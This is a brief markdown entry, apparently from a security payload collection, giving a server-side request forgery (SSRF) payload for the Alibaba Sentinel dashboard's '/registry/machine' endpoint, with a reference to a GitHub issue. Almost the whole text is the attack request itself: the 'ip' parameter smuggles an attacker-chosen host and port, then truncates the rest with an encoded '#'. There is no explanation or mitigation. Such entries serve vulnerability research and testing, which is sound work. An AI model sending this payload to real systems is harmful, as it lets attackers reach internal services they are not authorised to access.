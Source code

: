 ### SSRF
```
/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0
```

Ref:
- https://github.com/alibaba/Sentinel/issues/2451
